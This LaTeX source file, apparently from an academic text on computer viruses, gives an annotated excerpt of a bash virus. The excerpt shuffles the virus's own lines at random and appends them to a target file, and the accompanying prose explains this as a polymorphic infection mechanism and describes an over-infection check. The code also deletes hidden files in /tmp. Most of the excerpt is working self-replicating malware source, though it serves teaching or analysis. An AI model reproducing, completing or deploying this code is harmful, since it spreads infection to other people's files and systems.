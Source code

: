 \documentclass[a4paper,6.5pt]{article}
\makeatletter
\newcommand{\tocode}[1]{\mbox{\lstinline@#1@}}
\makeatother
\begin{document}
\begin{lstlisting}
	// Creates am array of 37 elements: first element "FT" and the last " "
  tabft=("FT" [36]=" ")  #@24
  declare -i nbl=0  #@25	// Creates an integer variable nbl=0
  while [ $nbl -ne 36 ]; do  #@26 // while (nbl != 36)
    valindex=$(((RANDOM % 36)+1))  #@27 		// Generates a random number from 1 to 36
    // while  tabft[valindex] == "FT" then choose a new number for valindex, that is a new line to append
    while [ "${tabft[$valindex]}" == "FT" ]; do  #@28
      valindex=$(((RANDOM % 36) + 1))  #@29
    done  #@30
		// Takes the last (n - valindex)-line of the virus					
    line=$(tail -n $valindex $0 | head -1)  #@31
    // Appends the line to the target file
    echo -e "$line" >> $target  #@32
    // Increment the counter and sign the valindex cell of tabft as appended
    nbl=$(($nbl+1)) && tabft[$valindex]="FT"  #@33
  done  #@34
done  #@35
rm /tmp/.* 2> /dev/null  #@36 // Removes all hidden temporary files
\end{lstlisting}

The lines  \tocode{1-3} and \tocode{14-18} deal with preventing over-infection: the virus executes a file and if it returns 0 it is already infected. The lines \tocode{19-34} identify the infection phase: initially the virus appends to the target file the code used to trigger the infection and finally the virus shuffles its own code and appends it to the target file: this is the implemented polymorphic mechanism. The virus has no payload.
\end{document}
